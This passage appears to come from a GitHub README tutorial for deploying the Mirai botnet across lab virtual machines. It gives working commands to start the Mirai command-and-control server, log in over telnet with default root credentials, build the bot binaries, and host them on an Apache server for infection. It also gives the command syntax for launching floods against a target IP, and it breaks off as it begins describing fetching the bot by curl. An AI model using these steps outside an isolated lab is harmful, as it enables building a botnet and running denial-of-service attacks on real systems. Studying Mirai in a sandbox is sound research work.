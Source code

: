 ### 2.8 Malware ready to Run
**To run the cnc use:**
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

**The cnc server will start as below:**
<br>
<img alt="ter_1" src="https://github.com/LohithCV/mirai-setup/assets/125025760/e61cc2b0-7961-4674-a417-efdc4a25c970" width="400"/><br>

**To connect to the cnc using telnet run this command in a new terminal instance:**
```
telnet localhost
```
<br>Username: **root**
<br>Password: **root**<br>
<br>**Type in these credentials and the attacker's terminal is ready:**
<br><img alt="ter_2" src="https://github.com/LohithCV/mirai-setup/assets/125025760/e5b371b7-3c15-4bb5-913c-5e9d1ed897ab" width="400"/><br>
<br>**To see the possible attacks that can be carried out with this terminal type in ?:**
<br><img alt="ter_3" src="https://github.com/LohithCV/mirai-setup/assets/125025760/dfa5490f-4f3f-4e15-8e19-0e02f78c1e6d" width="400"/><br>
<br>
### 2.9 Setup of webserver to store Mirai binaries
We didn't see how to attack iot devices yet but first of all we need to compile the release binary's:
```
bash ./build.sh release telnet
```
<br>


Let's install the binary's to apache2:
```
cd release
sudo bash ../apache2.sh
```
<br>
Type in the web server IP as the IP of CNC server on the internal network interface.
<br>

**Now the CNC is complelety set**

**To perform an attack enter the following in the attackers terminal**

```
<attack_type> <target_ip> <duration_in_seconds>
```

## 3. Virtual Machine - 3: Bot

To load mirai on to this you just need to curl the CNC server:
